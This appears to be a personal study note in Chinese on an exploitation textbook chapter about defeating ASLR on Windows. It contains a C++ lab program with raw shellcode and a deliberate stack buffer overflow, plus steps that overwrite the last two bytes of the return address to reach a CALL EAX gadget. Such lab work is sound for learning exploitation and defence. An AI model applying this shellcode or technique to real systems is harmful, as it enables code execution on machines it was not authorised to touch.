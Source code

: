 # notes about chapter13
## from 13.2 攻击未启用 ASLR 的模块
## from 13.3 利用部分覆盖进行定位内存地址
codes:

```C++
#include<string.h>
#include"stdlib.h" 
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"//168

"\x90\x90\x90\x90\x90\x90\x90\x90"//176
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"//256
"\x90\x90\x90\x90"

"\x90\x90"
;
char * test()
{
	char tt[256]; 
	memcpy(tt,shellcode,262); 

	_asm int 3;
	return tt;
}
int main()
{
	char temp[200]; 
	test();
	return 0;
}

```

覆盖完成后：

eax->shellcode起始地址：

![](./dbg1.JPG)

由于aslr只是让基址进行了随机化，所以可以用off by one的思路将地址的后两个字节覆盖，从而运行在随机化的基址基础上的偏移的指令，此时覆盖了最后两个字节：

![](./dbg2.JPG)

所以只要在能覆盖的地址范围内找到类似jmp eax的指令即可。

找到的指令：  
```
Log data, 条目 742
 地址=000A141C
 消息=Found  CALL EAX at 0xa141c     Module:  C:\Users\admin\Desktop\0day\exp398\Release\exp398.exe

```

使用第一个"\x1C\x14"即可。

![](./success1.JPG)

## 13.4  利用 Heap spray 技术定位内存地址
